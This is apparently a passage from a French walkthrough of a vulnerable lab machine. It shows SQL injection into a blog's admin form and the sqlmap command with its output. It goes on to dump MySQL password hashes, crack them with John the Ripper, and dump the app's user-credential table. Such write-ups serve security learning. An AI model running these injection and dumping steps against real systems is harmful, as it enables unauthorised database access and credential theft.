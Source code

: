 A noter qu'aucun mécanisme de cookies n'est présent c'est pour cela que les identifiants sont demandés sur les deux scripts.  

On remplit le formulaire en plaçant une parenthèse dans le champ du nom d'utilisateur comme *Wapiti* l'a fait et on obtient effectivement une erreur quelque peu bavarde :  

```plain
SELECT * FROM blog_users WHERE poster = 'test')' AND password = ''
You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near ')' AND password = ''' at line 1
```

On pourrait facilement exploiter cette faille à la main tellement l'erreur nous aide mais on va se servir de *sqlmap* pour gagner du temps. On commence par récupérer l'utilisateur courant avec cette commande :  

```plain
python sqlmap.py -u "http://192.168.1.95/admin/post.php" \
--data="month=on&date=13&year=on&username=*&password=letmein&time=07%3A08&title=default&entry=on&submit=Submit"\
--dbms=mysql --current-user
```

Le résultat s'affiche sous cette forme :  

```plain
[18:06:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 5.0 (lenny)
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL 5.0
[18:06:50] [INFO] fetching current user
[18:06:50] [INFO] retrieved: root@localhost

current database:    'blogdb'
```

L'application web utilise l'utilisateur mysql root... ça envoie du lourd. On continue avec un dump des hashs (*--passwords*) :  

```plain
debian-sys-maint:5b745a5c3656f410
root@%:6ff1f95e508abd08
root:6ff1f95e508abd08
```

Ces derniers se cassent assez rapidement avec *JTR* :  

```plain
$ /opt/jtr/john   --format=mysql sqlmaphashes-2eH9R3.txt
Loaded 3 password hashes with no different salts (MySQL [32/64])
toorcon          (root@%)
toorcon          (root)
```

Après avoir identifié le nom de la base de données (*blogbd*) puis celui des tables (*-D blogbd--tables*) on dumpe le contenu de la table *blog\_users* contenant les infos de connexion de la webapp :  

```plain
+----+---------+-----------+
| id | poster  | password  |
+----+---------+-----------+
| 1  | blogger | blogger01 |
+----+---------+-----------+
```
